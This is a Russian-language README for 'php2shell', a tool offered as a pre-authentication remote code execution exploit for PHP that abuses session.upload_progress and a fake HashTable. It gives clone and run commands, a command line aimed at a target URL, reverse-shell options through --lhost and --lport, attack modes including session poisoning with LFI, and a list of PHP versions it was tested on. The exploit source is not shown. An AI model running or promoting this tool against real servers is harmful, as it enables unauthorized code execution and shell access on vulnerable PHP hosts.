

Сделано специально на русском языке, чтобы иностранцы научились пользоваться переводчиком, а не только мы). 
Нагрешил и использовал ИИ при создании эксплоита, но моя голова тоже работала

<div align="center">

# 🐘 php2shell

**Pre-auth RCE в PHP · CVE-2026-109618 / CVE-2026-109619**

[](https://www.php.net/)
[](https://www.python.org/)
[](https://github.com/wwlamer/php2shell)
[](https://t.me/walterlamer)

[🐙 GitHub](https://github.com/wwlamer/php2shell) · [💬 Telegram](https://t.me/walterlamer) · [📚 Документация](docs/DOCUMENTATION.md)

</div>

> **Коротко:** `session.upload_progress` → OOM → stale state → fake HashTable → команда. Без Docker на цели, без отдельного shell-бинарника и без хардкода ASLR.

[📦 Установка](#install) · [🚀 Старт](#start) · [🕹️ Режимы](#modes) · [🧩 Флаги](#flags) · [✅ Проверено](#tested) · [📚 Документация](docs/DOCUMENTATION.md) · [🖼️ Скриншот](#shot) · [💬 Telegram](https://t.me/walterlamer)

<a id="install"></a>
<a id="start"></a>
## 📦 Установка и 🚀 Быстрый запуск

```bash
git clone https://github.com/wwlamer/php2shell.git
cd php2shell
python3 php2shell.py --help
```

Сторонних пакетов нет. Python 3.10+. Docker нужен только для `--auto`/`--box` на машине оператора.

```bash
python3 php2shell.py --url http://TARGET/index.php --cmd 'id'
```

Для авто-смещений и авто-контейнера добавь `--auto`; для обратного шелла: `--lhost` и `--lport`.

<a id="modes"></a>
## 🕹️ Режимы

- 🎯 `rce`: полная цепочка heap leak → libphp leak → fake HashTable → команда
- 🔍 `leak`: только две утечки, без выполнения кода
- 💥 `trigger`: только OOM и 4096-байтная утечка в `Set-Cookie`
- 🐚 `shell`: reverse shell через RCE-цепочку; 14-байтный carrier читает session-файл
- 📂 `lfi`: app-assisted session poisoning + LFI, работает и на патче

<a id="tested"></a>
## ✅ Проверено

- ✅ **PHP 8.4.26**: `uid=33(www-data)`
- ✅ **PHP 8.5.11**: `uid=33(www-data)`
- ❌ **PHP 8.4.27**: negative control, утечка кучи не срабатывает
- 🛡️ **PHP 8.5.12, 8.2.35, 8.3.36**: исправлено

По данным исследования уязвимы PHP 5.4+; профили PoC откалиброваны под 8.4/8.5.

<a id="flags"></a>
## 🧩 Флаги

Полные формы и все детали: [документация по флагам](docs/DOCUMENTATION.md#все-флаги).

```text
-u, --url          -c, --cmd          -m, --mode        -p, --profile
-a, --auto         -b, --box          -l, --lib         -L, --lhost
-P, --lport        -n, --no-listen    -s, --save        -S, --sid
-x, --sink         -r, --retries      -t, --timeout     -e, --sep
-d, --dump         -F, --proof        -f, --fetch       -k, --mark
-o, --overwrite    -B, --blind        -j, --json        -q, --quiet
-v, --version      -h, --help
```

<a id="shot"></a>
## 🖼️ Скриншот

[](screenshots/run.png)

## 💬 Канал

[Walter White](https://t.me/walterlamer) · `@walterlamer` · [GitHub](https://github.com/wwlamer/php2shell)
